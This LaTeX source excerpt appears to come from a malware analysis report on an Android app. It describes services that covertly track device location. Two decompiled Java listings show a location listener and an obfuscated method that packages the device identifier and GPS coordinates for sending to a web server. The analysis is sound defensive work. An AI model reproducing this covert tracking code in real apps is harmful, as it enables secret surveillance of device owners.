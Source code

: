 \documentclass[10pt,titlepage]{article}
\begin{document}
\newpage
\subsubsection{LOCATION TRACKING} \label{locationtracking}
The service \textit{naqsl.ebxcb.exu.ServiceGeolocationGPS} and \textit{naqsl.ebxcb.exu.ServiceGeolocationNetwork} are Services intended to track the Location of the device. Both services are implementing a \textit{android.location.LocationListener} (see Listing \ref{locationchangedlistener}), asking for Runtime permissions like \textit{android.permission.ACCESS\_FINE\_LOCATION}, call the function 
\\ \textit{android.location.LocationManager.requestLocationUpdates()} and send the results via the function 
\\ \textit{naqsl.ebxcb.exu.Cint.fddo(Context context, String str, String str2)} (see chapter \ref{screenshot} and Listing \ref{locationifdf}).

\begin{lstlisting}[label=locationchangedlistener,caption=The \textit{onLocationChanged} function calls ifdf which is intended to send the data to a Web server.,frame=tb]
    class fddo implements LocationListener {
        fddo() {
        }

        public void onLocationChanged(Location location) {
            ServiceGeolocationGPS.this.ifdf(location);
        }
        [...]
\end{lstlisting}


\begin{lstlisting}[label=locationifdf,caption=The function ifdf encodes the location information to a \textit{String} and passes it as argument to the function \textit{naqsl.ebxcb.exu.Cint.fddo(Context context, String str, String str2)},frame=tb]
    public void ifdf(Location location) {
        if (location != null && location.getProvider().equals("gps")) {
            Cint intR = this.f580fddo;
            String str = Cint.m430int("NQ==");
            StringBuilder sb = new StringBuilder();
            sb.append(Cint.m430int("cD0="));
            Cint intR2 = this.f580fddo;
            StringBuilder sb2 = new StringBuilder();
            sb2.append(this.f580fddo.fddo((Context) this));
            sb2.append(Cint.m430int("Og=="));
            sb2.append(fddo(location));
            sb2.append(Cint.m430int("OkdQUzo="));
            sb.append(intR2.m439for(sb2.toString()));
            intR.fddo((Context) this, str, sb.toString()); // intR is naqsl.ebxcb.exu.Cint
                       
        }
\end{lstlisting}
\end{document}
